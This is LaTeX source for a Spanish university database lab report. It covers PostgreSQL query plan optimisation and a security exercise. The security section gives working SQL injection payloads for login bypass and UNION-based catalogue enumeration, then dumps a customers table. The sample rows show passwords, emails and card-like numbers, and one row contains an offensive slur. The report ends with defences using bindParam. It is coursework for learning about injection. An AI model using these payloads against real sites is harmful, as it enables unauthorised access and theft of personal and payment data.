%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Structured General Purpose Assignment
% LaTeX Template
%
% This template has been downloaded from:
% http://www.latextemplates.com
%
% Original author:
% Ted Pavlic (http://www.tedpavlic.com)
%
% Note:
% The \lipsum[#] commands throughout this template generate dummy text
% to fill the template out. These commands should all be removed when
% writing assignment content.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------
%   PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------

\documentclass{article}

\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{fancyhdr} % Required for custom headers
\usepackage{lastpage} % Required to determine the last page for the footer
\usepackage{graphicx} % Required to insert images
\usepackage{tikz}
\usepackage[export]{adjustbox}
\usepackage{enumitem}
\usepackage{environ}
\usepackage{multicol}
\usepackage{listings}
\usepackage{hyperref}
\usepackage[font=small]{caption}
\selectlanguage{spanish}
\addto\extrasspanish{%
    \def\figureautorefname{Figura}%
}
\lstset{
    basicstyle=\small\ttfamily,
    columns=flexible,
    breaklines=true
}

% Margins
\topmargin=-0.45in
\evensidemargin=0in
\oddsidemargin=0in
\textwidth=6.5in
\textheight=9.0in
\headsep=0.25in

\linespread{1.1} % Line spacing

% Set up the header and footer
\pagestyle{fancy}
\lhead{\small \hmwkClass: \hmwkTitle} % Top left header
\chead{} % Top center header
\rhead{\small \hmwkAuthorName} % Top right header
\lfoot{} % Bottom left footer
\cfoot{} % Bottom center footer
\rfoot{Página\ \thepage\ de\ \pageref{LastPage}} % Bottom right footer
\renewcommand\headrulewidth{0.4pt} % Size of the header rule
\renewcommand\footrulewidth{0.4pt} % Size of the footer rule

\setlength\parindent{0pt} % Removes all indentation from paragraphs
\setlength{\multicolsep}{6.0pt plus 2.0pt minus 1.5pt} % 50% of original values

\newlength\widest
\makeatletter
\NewEnviron{ldescription}{%
    \vbox{%
        \global\setlength\widest{0pt}%
        \def\item[##1]{%
            \settowidth\@tempdima{\textbf{##1}}%
            \ifdim \@tempdima>\widest \global\setlength\widest{\@tempdima} \fi%
        }%
        \setbox0=\hbox{\BODY}%
    }
    \begin{description}[leftmargin=\dimexpr\widest+0.5em\relax,labelindent=0pt, labelwidth=\widest]
        \BODY
\end{description}%
}
\makeatother

%----------------------------------------------------------------------------------
%   NAME AND CLASS SECTION
%----------------------------------------------------------------------------------

\newcommand{\hmwkTitle}{Práctica\ 4} % Assignment title
\newcommand{\hmwkClass}{Sistemas Informáticos I} % Course/class
\newcommand{\hmwkAuthorName}{\small Sergio Fuentes de Uña | Daniel Perdices Burrero} % Your name

%----------------------------------------------------------------------------------
%   TITLE PAGE
%----------------------------------------------------------------------------------

\title{
    \vspace{2in}
    \textmd{\textbf{\hmwkClass:\ \hmwkTitle}}\\
    \vspace{3in}
}

\author{\textbf{\hmwkAuthorName}}

%----------------------------------------------------------------------------------
\begin{document}

\maketitle

%----------------------------------------------------------------------------------
%   TABLE OF CONTENTS
%----------------------------------------------------------------------------------

%\setcounter{tocdepth}{1} % Uncomment this line if you don't want subsections listed in the ToC

\newpage
\tableofcontents
\newpage
\section{Optimización}
\subsection{Ejercicio A: {\small Estudio del impacto de un índice}}
\begin{lstlisting}
 Aggregate  (cost=4583.49..4583.50 rows=1 width=8)
   ->  Nested Loop  (cost=0.29..4583.49 rows=1 width=4)
         ->  Seq Scan on clientorders  (cost=0.00..4575.17 rows=1 width=4)
               Filter: ((totalamount > '100'::numeric) AND (date_part('month'::text, date) = '3'::double precision) AND (date_part('year'::text, date) = '2013'::double precision))
         ->  Index Only Scan using customers_pkey on customers  (cost=0.29..8.30 rows=1 width=4)
               Index Cond: (customerid = clientorders.customerid)
\end{lstlisting}
\begin{lstlisting}
 Aggregate  (cost=3273.05..3273.06 rows=1 width=8)
   ->  Nested Loop  (cost=925.28..3273.04 rows=1 width=4)
         ->  Bitmap Heap Scan on clientorders  (cost=925.00..3264.73 rows=1 width=4)
               Recheck Cond: (totalamount > '100'::numeric)
               Filter: ((date_part('month'::text, date) = '3'::double precision) AND (date_part('year'::text, date) = '2013'::double precision))
               ->  Bitmap Index Scan on idx1  (cost=0.00..925.00 rows=49677 width=0)
                     Index Cond: (totalamount > '100'::numeric)
         ->  Index Only Scan using customers_pkey on customers  (cost=0.29..8.30 rows=1 width=4)
               Index Cond: (customerid = clientorders.customerid)
\end{lstlisting}
\subsection{Ejercicio B: {\small Estudio del impacto de preparar sentencias SQL}}
\subsection{Ejercicio C: {\small Estudio del impacto de cambiar la forma de realizar una consulta}}
\begin{lstlisting}
 Seq Scan on customers  (cost=3209.07..3743.23 rows=7046 width=4)
   Filter: (NOT (hashed SubPlan 1))
   SubPlan 1
     ->  Seq Scan on clientorders  (cost=0.00..3084.88 rows=49677 width=4)
           Filter: (totaloutcome > '0'::numeric)
\end{lstlisting}
\begin{lstlisting}
 HashAggregate  (cost=4399.43..4401.43 rows=200 width=4)
   Group Key: customers.customerid
   Filter: (count(*) = 1)
   ->  Append  (cost=0.00..4080.57 rows=63770 width=4)
         ->  Seq Scan on customers  (cost=0.00..498.93 rows=14093 width=4)
         ->  Seq Scan on clientorders  (cost=0.00..3084.88 rows=49677 width=4)
               Filter: (totaloutcome > '0'::numeric)
\end{lstlisting}
\begin{lstlisting}
 HashSetOp Except  (cost=0.00..4380.93 rows=14093 width=8)
   ->  Append  (cost=0.00..4221.51 rows=63770 width=8)
         ->  Subquery Scan on "*SELECT* 1"  (cost=0.00..639.86 rows=14093 width=8)
               ->  Seq Scan on customers  (cost=0.00..498.93 rows=14093 width=4)
         ->  Subquery Scan on "*SELECT* 2"  (cost=0.00..3581.64 rows=49677 width=8)
               ->  Seq Scan on clientorders  (cost=0.00..3084.88 rows=49677 width=4)
                     Filter: (totaloutcome > '0'::numeric)
\end{lstlisting}
\subsection{Ejercicio D: {\small Estudio del impacto de la generación de estadísticas}}
Sin índice:
\begin{lstlisting}
     Aggregate  (cost=11787.79..11787.80 rows=1 width=8)
        ->  Seq Scan on clientbets  (cost=0.00..11779.52 rows=3308 width=0)
             Filter: (outcome IS NULL)
\end{lstlisting}
\begin{lstlisting}
     Aggregate  (cost=13441.92..13441.93 rows=1 width=8)
        ->  Seq Scan on clientbets  (cost=0.00..13433.65 rows=3308 width=0)
             Filter: (outcome = '0'::numeric)
\end{lstlisting}
Con índice:
\begin{lstlisting}
     Aggregate  (cost=4893.70..4893.71 rows=1 width=8)
        ->  Bitmap Heap Scan on clientbets  (cost=66.06..4885.43 rows=3308 width=0)
             Recheck Cond: (outcome IS NULL)
                      ->  Bitmap Index Scan on idx2  (cost=0.00..65.23 rows=3308 width=0)
                                     Index Cond: (outcome IS NULL)
\end{lstlisting}
\begin{lstlisting}
     Aggregate  (cost=4901.97..4901.98 rows=1 width=8)
        ->  Bitmap Heap Scan on clientbets  (cost=66.06..4893.70 rows=3308 width=0)
             Recheck Cond: (outcome = '0'::numeric)
                      ->  Bitmap Index Scan on idx2  (cost=0.00..65.23 rows=3308 width=0)
                                     Index Cond: (outcome = '0'::numeric)
\end{lstlisting}
Con \texttt{ANALYZE}:
\begin{lstlisting}
      Aggregate  (cost=5.37..5.38 rows=1 width=8)
         ->  Index Only Scan using idx2 on clientbets  (cost=0.42..5.37 rows=1 width=0)
             Index Cond: (outcome IS NULL)
\end{lstlisting}
\begin{lstlisting}
      Aggregate  (cost=14331.01..14331.02 rows=1 width=8)
         ->  Seq Scan on clientbets  (cost=0.00..13433.65 rows=358946 width=0)
             Filter: (outcome = '0'::numeric)
\end{lstlisting}
\section{Transacciones y \textit{deadlocks}}
\subsection{Ejercicio E: {\small Realización de una página PHP \texttt{borraCliente.php}}}
\subsection{Ejercicio F: {\small Estudio de bloqueos y deadlocks}}
\section{Seguridad}
\subsection{Ejercicio G: {\small Acceso indebido a un sitio web}}
Para ambos casos basta con introducir en el campo Contraseña la siguiente cadena:
\begin{lstlisting}
      a' or '1'='1
\end{lstlisting}
Con ello lo que hará será formarse la siguiente consulta:
\begin{lstlisting}
     select * from customers where username='gatsby' and password='a' or '1'='1' 
\end{lstlisting}
La cual siempre reporta la tabla entera de \texttt{customers}, validando el proceso de ingreso en la página.

        \begin{minipage}{\linewidth}
            \centering
            \captionsetup{type=figure}
            \caption{\textit{Login correcto}}
            \label{fig:fig1}
            
\includegraphics[scale=0.3]{img/sql_inject1}
        \end{minipage}

Se propone para evitar el ataque de tipo \textit{SQLInjection} utilizar las función de PDO \texttt{bindParam} que ejecuta una validación (escapando carácteres especiales de SQL) y evita el poder realizar esto. Se encuentra la solución propuesta en el fichero \texttt{xLoginInjectionRepaired.php}
\subsection{Ejercicio H: {\small Acceso indebido a información}}
\subsubsection{Hallar el nombre de las tablas}
Basta con introducir el siguiente texto: 
\begin{lstlisting}
a' UNION SELECT relname from pg_class where '1'='1
\end{lstlisting}
Y se recibe una salida similar a esta:
\begin{lstlisting}
    pg_ts_parser_oid_index
    pg_conversion_oid_index
    pg_stat_user_indexes
    pg_ts_dict
    pg_amop
    pg_toast_1255_index
    pg_tablespace
    [ ... ]
    pg_language
    usage_privileges
    pg_toast_12214
    pg_transform
    pg_toast_2609
    pg_cursors
    transforms
    pg_class
    pg_statio_all_tables
    pg_ts_template
    sql_features
    sql_implementation_info
    pg_user_mapping_user_server_index
    pg_collation
    clientbets
    pg_tables
    pg_stat_archiver
    pg_extension_oid_index
    pg_largeobject
\end{lstlisting}    
{\footnotesize Salida completa en \texttt{tablas.html}}

Realmente de la consulta solo se ha utilizado que la variable sustituida está al final, luego podemos unir el resultado con otra consulta, en este caso sobre las tablas de administración

Para centrarse en las tablas de interés es necesario encontrar el oid del \textit{schema public}

Esto se logra fácilmente con la siguiente entrada en formulario:
\begin{lstlisting}
a' union select oid || ' ' || nspname from pg_namespace where '1'='1

\end{lstlisting}
Retornando algo similar la página web:
\begin{lstlisting}
    99 pg_toast
    11817 pg_toast_temp_1
    2200 public
    11 pg_catalog
    12086 information_schema
    11816 pg_temp_1
\end{lstlisting}
{\footnotesize Salida completa en \texttt{oid\_public.html}}

Usando esto, es relativamente sencillo en la tabla anterior, recuperar las tablas de interés con la siquiente entrada:

\begin{lstlisting}
a' union select oid || ' ' || relname || ' ' || relnamespace from pg_class where relnamespace = 2200 and '1'='1

\end{lstlisting}

La cual devuelve:
\begin{lstlisting}
    20700 optionbet 2200
    20690 clientorders_id_seq 2200
    20706 options 2200
    20723 clientorders_pkey 2200
    20725 customers_pkey 2200
    20727 customers_username_key 2200
    20709 options_optionid_seq 2200
    20721 clientbets_pkey 2200
    20698 customers_customerid_seq 2200
    20677 clientbets 2200
    20715 bets_pkey 2200
    20731 options_pkey 2200
    20683 clientorders 2200
    20675 categorias_categoriaid_seq 2200
    20670 bets_betid_seq 2200
    20717 categorias_categoria_key 2200
    20667 bets 2200
    20672 categorias 2200
    20729 optionbet_pkey 2200
    20719 categorias_pkey 2200
    20692 customers 2200
\end{lstlisting}
{\footnotesize Salida completa en \texttt{tablas\_interes.html}}

\subsubsection{Identificar los atributos de una tabla}
En este caso, se hallará el esquema de la tabla \texttt{customers}

En primer lugar se halla el oid de la tabla de interes. Si nos fijamos, la entrada anterior imprimía el oid de la tabla, por lo cual basta fijarse en el oid 20692.

Con este oid, se pretende buscar en la tabla \texttt{pg\_attribute}. Para ello, se vuelve a realizar otra consulta con otra entrada:
\begin{lstlisting}
a' union select attname || ' ' || attrelid from pg_attribute where attrelid=20692 and '1'='1
\end{lstlisting}
Y el resultado es:
\begin{lstlisting}
    address2 20692
    creditcardexpiration 20692
    address1 20692
    cmin 20692
    country 20692
    age 20692
    customerid 20692
    xmin 20692
    city 20692
    password 20692
    tableoid 20692
    ctid 20692
    credit 20692
    state 20692
    zip 20692
    phone 20692
    cmax 20692
    region 20692
    lastname 20692
    email 20692
    creditcard 20692
    creditcardtype 20692
    firstname 20692
    username 20692
    gender 20692
    xmax 20692
\end{lstlisting}
{\footnotesize Salida completa en \texttt{atributos\_customer.html}}

Por último, se utiliza esto para imprimir la lista de todos los clientes con todos sus datos usando la siquiente entrada:

\begin{lstlisting}
a' union select address2 || ' ' || creditcardexpiration || ' ' || address1 || ' ' || cmin || ' ' || country || ' ' || age || ' ' || customerid || ' ' || xmin || ' ' || city || ' ' || password || ' ' || tableoid || ' ' || ctid || ' ' || credit || ' ' || state || ' ' || zip || ' ' || phone || ' ' || cmax || ' ' || region || ' ' || lastname || ' ' || email || ' ' || creditcard || ' ' || creditcardtype || ' ' || firstname || ' ' || username || ' ' || gender || ' ' || xmax from customers where '1'='1
\end{lstlisting}

Lo que resulta en lo siguiente:
\begin{lstlisting}
  aachen cobain 201310 fish faggot 141 0 UK 41 8297 45422 rote brute 20692 (76,8) 21876 hustle 17898 +31 292723366 0 billet marc char.marc@jmail.com 4215223247965149 VISA char koch M 0
  abacus danial 201401 babar ritual 224 0 Hong Kong 30 2565 45422 decree russia 20692 (170,18) 54584 beware 53132 +9 708173334 0 chou debark landis.debark@kran.com 4851574696347234 Mastercard landis souths2565 M 0
  abacus former 201206 gilead votary 270 0 Morocco 35 7814 45422 lessen mort 20692 (255,36) 49677 lorene 46651 +32 848738180 0 aileen hecuba crick.hecuba@potmail.com 4515032501163616 Mastercard crick bow7814 M 0
  abacus toasty 201204 toad ahab 66 0 Algeria 53 9796 45422 azania dix 20692 (287,26) 59212 veto 24135 +15 904018666 0 marsh ieee vetoes.ieee@kran.com 4380476712419911 American vetoes unbred9796 M 0
  abaft kathie 201506 alvaro crunch 74 0 Yugoslavia 30 5165 45422 privy post 20692 (47,30) 21635 alarm 42222 +50 428443915 0 stem iran steve.iran@jmail.com 4083182254722984 American steve eula M 0
  abase yet 201202 amity sallow 269 0 Luxembourg 52 11425 45422 aiken coerce 20692 (314,16) 17808 wisdom 38695 +13 866839246 0 kalb punk nit.punk@kran.com 4972076376273655 Mastercard nit shoal11425 F 0
[...]
\end{lstlisting}
{\footnotesize Salida completa en \texttt{customers.html}}

\subsubsection{Solución y mejoras}

Una combobox puede ser una solución aceptable para evitar al menos que un usuario ataque usando simplemente un navegador la página web, sin embargo, no sigue siendo una solución segura, pues herramientas como \texttt{curl} permiten fácilmente construir peticiones http de cualquier tipo con cualquier valor en los campos enviados, luego siguiendo dejando abierta la posibilidad de ataque mediante inyección de código.

La solución propuesta sigue pasando por dar una validación de las entradas recibidas en el servidor, usando \texttt{bindParam} o alguna validación propia. Esto evitaría estos ataques de manera completa.

No hay ninguna diferencia entre GET y POST, es cierto que GET envía los datos en la URL, luego es más fácil de ver y modificar con un navegador, pero POST sigue siendo posible de ver mediante disectores de tráfico (e.g. los integrados en Wireshark) y perfectamente simulables mediante curl, por ejemplo. 

Nótese que el ataque realizado es independiente de si se utiliza GET o POST, pues se ha utilizado únicamente el navegador para enviar datos, lo anterior solo aplica a casos en los cuales los campos incluyan validaciones y no dejen enviar desde el navegador ciertos valores.

\end{document}
